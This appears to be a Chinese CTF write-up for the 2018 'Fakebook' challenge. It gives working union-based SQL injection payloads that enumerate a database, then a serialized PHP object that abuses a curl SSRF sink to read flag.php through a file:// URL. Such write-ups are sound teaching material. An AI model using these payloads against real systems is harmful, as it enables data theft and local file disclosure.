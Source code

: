 # 1.解题过程

## 1.sql注入

访问web页面有一个login和join

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/1.png)

点击join页面随便注册个账号

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/2.png))

注册完后自动登录了（是不是登录状态无所谓），点击链接发现有get传值，直接sql注入

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/3.png)

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/4.png)

使用`order by`判断字段数，一共有4个字段

> 1 order by 4--+

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/6.png)

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/5.png)

既然知道了字段数就可以联合注入获取数据了

>-1 union all select 1,2,3,4--+

+ union			 自动压缩多个结果集合中的重复结果
+ union all		将所有的结果全部显示出来，不管是不是重复

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/7.png)

发现`unserialize()`函数，同时发现输出的字段数是第二个

> -1 union all select 1,database(),3,4--+		获取数据库名--fakebook
>
> -1 union all select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="fakebook"--+		获取表名--users
>
> -1 union all select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema="fakebook" and table_name="users"--+		获取字段名

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/8.png)

> -1 union all select 1,group_concat(data),3,4 from users--+		获取data字段的数据

一共4个字段，no没有什么意义、username也只有刚注册的用户、passwd是加密过后的，data字段是序列化后的数据，再联想到左上角的`unserialize()`函数所以这题应该要一手源代码弄一下反序列化

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/9.png)

## 2.php反序列化+ssrf

爆破目录，发现有robots.txt同时发现了flag.php文件（这个后面会用到）

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/10.png)

获得`user.php.bak`源代码

```php
<?php
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
?>
```

+ curl_init			初始化一个cRUL会话，供`curl_setopt()`、`curl_exec()`、`curl_close()`函数使用
+ curl_setopt	  请求一个url
  + CURLOPT_URL表示需要获得的url地址，后面就是ta的值
  + CURLOPT_RETURNTRANSFER将`curl_exec()`获取的信息以文件流的形式返回，而不是直接输出

+ curl_exec		  成功时返回true，或者在失败时返回false。如果CURLOPT_RETURNTRANSFER选项被设置，函数执行成功时会返回执行的结果，失败时还是返回false
+ CURLINFO_HTTP_CODE		最后一个收到http代码
+ curl_getinfo		以字符串形式返回ta的值，因为设置了CURLINFO_HTTP_CODE，所以是返回的状态码，如果状态码不是404，就返回exec的结果

代码一开始先对几个参数进行了初始化，后面`get`函数传的参数是blog

捋一下思路，第4字段输出时会通过`serialize()`函数，所以注册的时候会序列化信息输出的时候还原，这样就出现了漏洞

从报错中获得路径

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/14.png)

同时回想其爆破目录时爆出来过一个flag.php

构造payload

```php
<?php
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";
}
$x = new UserInfo();
echo serialize($x);
?>
//O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

> -1 union all select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'--+

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/12.png)

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/11.png)

直接点是不行的需要在新标签页中打开链接，查看源代码

![](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook/13.png)

获得flag

# 2.总结

这题没有什么难度，写的原因是ta同时涉及了php反序列化和ssrf

以后比赛会出有关php反序列化的题目

所以多做一些开拓思路
